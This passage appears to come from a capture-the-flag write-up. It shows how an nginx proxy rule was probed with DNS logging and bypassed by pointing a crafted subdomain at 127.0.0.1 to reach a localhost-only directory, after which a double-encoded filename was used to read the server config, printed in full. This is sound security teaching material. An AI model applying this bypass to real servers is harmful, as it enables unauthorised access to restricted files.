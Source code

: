 	- `/pleb../` => 502
	- `/pleba/` => 502
	- ...
- So we can guess the proxy rule may look like:
	- `/pleb[INPUT]` => `example.com[INPUT]`
	- Testing with DNS LOG: `/pleb.kaibro.tw`
	- Received a request: `example.com.kaibro.tw`
- Set `example.com.gg.kaibro.tw` to point `127.0.0.1`
	- Then we can visit `/pleb.gg.kaibro.tw/user/` now.
	- There is only one file `nginx.c%C3%B6nf%20` under `/user/`
	- Double encode the filename and read it:


```
worker_processes 1;
user nobody nobody;
error_log /dev/stdout;
pid /tmp/nginx.pid;
events {
  worker_connections 1024;
}

http {

    # Set an array of temp and cache files options that otherwise defaults to
    # restricted locations accessible only to root.

    client_body_temp_path /tmp/client_body;
    fastcgi_temp_path /tmp/fastcgi_temp;
    proxy_temp_path /tmp/proxy_temp;
    scgi_temp_path /tmp/scgi_temp;
    uwsgi_temp_path /tmp/uwsgi_temp;
    resolver 8.8.8.8 ipv6=off;

    server {
        listen 80;

        location / {
            root /var/www/html/public;
            try_files $uri $uri/index.html $uri/ =404;
        }

        location /user {
            allow 127.0.0.1;
            deny all;
            autoindex on;
            root /var/www/html/;
        }

        location /admin {
            internal;
            autoindex on;
            alias /var/www/html/admin/;
        }

        location /uberadmin {
            allow 0.13.3.7;
            deny all;
            autoindex on;
            alias /var/www/html/uberadmin/;
        }

        location ~ /pleb([/a-zA-Z0-9.:%]+) {
            proxy_pass   http://example.com$1;
        }
```